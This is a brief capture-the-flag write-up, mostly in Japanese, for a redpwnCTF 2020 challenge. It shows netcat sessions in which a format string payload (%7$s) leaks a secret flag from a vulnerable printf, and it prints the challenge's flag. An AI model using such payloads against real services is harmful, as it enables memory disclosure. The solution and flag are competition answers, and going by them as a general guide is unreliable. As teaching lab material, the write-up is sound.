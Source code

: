 # # <!--XXXXXXXXXX-->
There's a super secret flag in printf that allows you to LEAK the data at an address??  
nc 2020.redpwnc.tf 31826  
[secret-flag](secret-flag)  

# Solution
ncすると名前を聞かれるようだ。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
Satoki
Hello there: Satoki
```
ソースもなく適当な場所へret2できないので、書式文字列攻撃(format string attack)を狙う。  
`%s`の入力で以下のようになった。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%s
Hello there: Hello there:
```
スタックに積まれたHello there:が出てきてしまっている。  
あとは`%n$s`でn番目まで遡ればよい。  
`%7$s`でフラグが現れた。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

## flag{n0t_s0_s3cr3t_f1ag_n0w}